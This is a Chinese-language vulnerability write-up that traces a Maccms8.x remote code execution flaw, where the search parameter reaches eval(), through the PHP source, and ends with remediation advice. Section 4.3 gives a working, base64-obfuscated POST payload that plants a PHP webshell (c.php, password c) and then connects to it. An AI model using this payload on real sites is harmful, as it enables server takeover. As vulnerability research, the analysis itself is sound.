# Maccms8.x 命令执行漏洞分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞简述： Maccms搜索页面搜索输入参数过滤不严谨导致前台命令执行可getshell
* 影响版本： Maccms8.x

## 2.&emsp;漏洞简介 ##

&emsp;&emsp;魅魔电影程序(Maccms PHP)是一套采用PHP/MySQL数据库运行的全新且完善的强大视频电影系统。完美支持众多视频网站和高清播放器(youku,tudou,qvod,gvod等)，完全免费开源。

&emsp;&emsp;该漏洞主要的产生原因是CMS搜索页面搜索参数过滤不严导致直接eval执行PHP语句。

## 3.&emsp;漏洞原理分析 ##

### 3.1 &emsp;源码分析 ###

&emsp;&emsp;首先我们通过网上已知的payload：URL：`http://127.0.0.1/index.PHP?m=vod-search`POST数据`wd={if-A:print(md5(23333))}{endif-A}`进行源码跟踪和调试。



首先进入index.php进行跟踪，我们可以看到代码中直接将m=vod-search参数进行拆分vod参数和search参数，vod参数是进入的文件路径，search是vod.php的一个选项。



进入\inc\module\vod.php页面继续debug，进入method=search条件语句，$wd为我们输入的参数`{if-A:print(md5(23333))}{endif-A}`：



继续跟踪可以看到对$tp1数组进行赋值，同时加载\template\paody\html\vod_search.html：



继续跟踪\inc\module\vod.php，进行代码走读：

	$db = new AppDb($MAC['db']['server'],$MAC['db']['user'],$MAC['db']['pass'],$MAC['db']['name']);
	$tpl->H = loadFile(MAC_ROOT_TEMPLATE."/vod_search.html");
	$tpl->mark();
	$tpl->pageshow();

	$colarr = array('{page:des}','{page:key}','{page:now}','{page:order}','{page:by}','{page:wd}','{page:wdencode}','{page:pinyin}','{page:letter}','{page:year}','{page:starring}','{page:starringencode}','{page:directed}','{page:directedencode}','{page:area}','{page:areaencode}','{page:lang}','{page:langencode}','{page:typeid}','{page:typepid}','{page:classid}');
	$valarr = array($tpl->P["des"],$tpl->P["key"],$tpl->P["pg"],$tpl->P["order"],$tpl->P["by"],$tpl->P["wd"],urlencode($tpl->P["wd"]),$tpl->P["pinyin"],$tpl->P["letter"],$tpl->P['year']==0?'':$tpl->P['year'],$tpl->P["starring"],urlencode($tpl->P["starring"]),$tpl->P["directed"],urlencode($tpl->P["directed"]),$tpl->P["area"],urlencode($tpl->P["area"]),$tpl->P["lang"],urlencode($tpl->P["lang"]),$tpl->P['typeid'],$tpl->P['typepid'] ,$tpl->P['classid']  );

	$tpl->H = str_replace($colarr, $valarr ,$tpl->H);

我们可以看到代码中利用`$tpl->H = str_replace($colarr, $valarr ,$tpl->H);`语句将$tp1->H中的`$colarr = array('{page:des}','{page:key}','{page:now}','{page:order}','{page:by}','{page:wd}','{page:wdencode}','{page:pinyin}','{page:letter}','{page:year}','{page:starring}','{page:starringencode}','{page:directed}','{page:directedencode}','{page:area}','{page:areaencode}','{page:lang}','{page:langencode}','{page:typeid}','{page:typepid}','{page:classid}');`进行替换，替换后的$tpl->H值为我们之前输入的POC：



继续跟进，进入\inc\common\template.php的ifex函数：

	function ifex()
	    {
	        if (!strpos(",".$this->H,"{if-")) { return; }
			$labelRule = buildregx('{if-([\s\S]*?):([\s\S]+?)}([\s\S]*?){endif-\1}',"is");
			preg_match_all($labelRule,$this->H,$iar);

			$arlen=count($iar[2]);

			for($m=0;$m<$arlen;$m++){
				$strn = $iar[1][$m]; //该值取的是$iar第二个数组中的值，为“A”
				$strif= asp2phpif( $iar[2][$m] ) ;//该值取的是$iar第三个数组中的值，为“print(md5(23333))”
				$strThen= $iar[3][$m];//该值取的是$iar第四个数组中的值，第一个为“”
				$elseifFlag=false;

				$labelRule2="{elseif-".$strn."";
				$labelRule3="{else-".$strn."}";

				if (strpos(",".$strThen,$labelRule2)>0){
					$elseifArray=explode($labelRule2,$strThen);
					$elseifArrayLen=count($elseifArray);
					$elseifSubArray=explode($labelRule3,$elseifArray[$elseifArrayLen-1]);
					$resultStr=$elseifSubArray[1];
					@eval("if($strif){\$resultStr='$elseifArray[0]';\$elseifFlag=true;}");
					if(!$elseifFlag){
						for($elseifLen=1;$elseifLen<$elseifArrayLen-1;$elseifLen++){
							$strElseif=getSubStrByFromAndEnd($elseifArray[$elseifLen],":","}","");
							$strElseif=asp2phpif($strElseif);
							$strElseifThen=getSubStrByFromAndEnd($elseifArray[$elseifLen],"}","","start");
							$strElseifThen=str_replace("'","\'",$strElseifThen);
							@eval("if($strElseif){\$resultStr='$strElseifThen'; \$elseifFlag=true;}");
							if ($elseifFlag) {break;}
						}
					}
					if(!$elseifFlag){
						$strElseif0=getSubStrByFromAndEnd($elseifSubArray[0],":","}","");
						$strElseif0=asp2phpif($strElseif0);
						$strElseifThen0=getSubStrByFromAndEnd($elseifSubArray[0],"}","","start");
						$strElseifThen0=str_replace("'","\'",$strElseifThen0);
						@eval("if($strElseif0){\$resultStr='$strElseifThen0';\$elseifFlag=true;}");
					}
					$this->H=str_replace($iar[0][$m],$resultStr,$this->H);
				}
				else{
					$ifFlag = false;
					if (strpos(",".$strThen,$labelRule3)>0){
						$elsearray=explode($labelRule3,$strThen);
						$strThen1=$elsearray[0];
						$strElse1=$elsearray[1];
						@eval("if($strif){\$ifFlag=true;}else{\$ifFlag=false;}");
						if ($ifFlag){ $this->H=str_replace($iar[0][$m],$strThen1,$this->H);} else {$this->H=str_replace($iar[0][$m],$strElse1,$this->H);}
					}
					else{
						@eval("if($strif){\$ifFlag=true;}else{\$ifFlag=false;}");
						if ($ifFlag){ $this->H=str_replace($iar[0][$m],$strThen,$this->H);} else { $this->H=str_replace($iar[0][$m],"",$this->H); }
					 }
				}
			}
			unset($elsearray);
			unset($elseifArray);
			unset($iar);
			if (strpos(",".$this->H,"{if-")) { $this->ifex(); }
	    }

可以看到首先对$this->H进行正则匹配，筛选符合正则的参数存入数组中，$iar[2][$m]参数是我们要执行的POC，经过asp2phpif进行过滤，这里我们看一下asp2phpif函数的源码：

	function asp2phpif($str)
	{
		$str= str_replace("not","!",$str);
		$str= str_replace("==","=",$str);
		$str= str_replace("=","==",$str);
		$str= str_replace("<>","!=",$str);
		$str= str_replace("and","&&",$str);
		$str= str_replace("or","||",$str);
		$str= str_replace("mod","%",$str);
		return $str;
	}
该函数主要对他认为的参数进行替换，可以看到我们需要执行的POC并没有被过滤和替换掉。



最后我们可以看到$strif参数并没有再被过滤而是直接执行了eval函数



到这就已经debug完所有的流程，也成功的执行了命令`print(md5(23333))`，如图所示：


## 4.&emsp;靶场环境搭建 ##

### 4.1&emsp;环境源码下载 ###

通过github下载Maccms8.x源码[https://github.com/yaofeifly/Maccms8.x](https://github.com/yaofeifly/Maccms8.x "https://github.com/yaofeifly/Maccms8.x")

### 4.2&emsp;安装Maccms ###

* 在Linux下直接安装Apache+Mysql+php环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，在浏览器直接访问Maccms路径，进入安装页面。配置好CMS需要的环境



* 配置好数据连接，用户设置等，直接安装即可
* 访问http://localhost/maccms8/成功出现CMS首页。安装成功

### 4.3&emsp;漏洞复现（getshell） ###

1.访问Maccms网站，进入search页面。

2.利用Firefox浏览器发送POST数据包或直接用Python编写脚本进行发送POST数据包

3.构造一句话木马payload：`wd={if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}`进行攻击，该payload是直接生成一个c.php一句话木马文件，连接密码为c。



4.菜刀或直接用Firefox连接一句话，执行命令。



## 5.&emsp;修复意见 ##

&emsp;&emsp;升级Maccms8.x到最新版本，或手动添加规则过滤非法字符。
